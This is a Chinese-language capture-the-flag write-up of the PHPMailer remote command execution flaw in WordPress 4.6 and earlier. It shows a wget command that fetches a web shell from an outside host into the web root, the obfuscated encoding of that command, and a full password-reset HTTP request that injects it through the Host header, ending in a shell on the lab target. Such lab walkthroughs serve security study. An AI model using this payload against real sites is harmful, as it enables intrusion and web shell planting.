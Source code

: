 ### 漏洞描述

WordPress 是一种使用 PHP 语言开发的博客平台，用户可以在支持 PHP 和 MySQL 数据库的服务器上架设属于自己的网站。也可以把 WordPress 当作一个内容管理系统（CMS）来使用。WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。

### 影响版本

WordPress <= 4.6

### writeup

启动靶场

![](./20200513100231.png)

访问靶机地址http://ctf.mzxh.xyz:65079/

![](./20200513105416.png)

在找回密码处抓包 http://ctf.mzxh.xyz:65079/wp-login.php?action=lostpassword

构造payload

```
/usr/bin/wget --output-document /var/www/html/shell.php www.mzxh.xyz/tools/shell.php
```

```
> `空格` 转化为 ${substr{10}{1}{$tod_log}}

> `/` 转化为 ${substr{0}{1}{$spool_directory}}
```

转换过来就是

```
{substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}shell.php${substr{10}{1}{$tod_log}}www.mzxh.xyz${substr{0}{1}{$spool_directory}}tools${substr{0}{1}{$spool_directory}}shell.php
```

构造 poc,把上面生成的payload改进poc里，点击GO发送请求包到服务器。

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{$payload}} null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

即下图所示

![](./20200513111049.png)

访问shell地址http://ctf.mzxh.xyz:65079/shell.php

![](./20200513111132.png)

获取shell

![](./20200513111209.png)
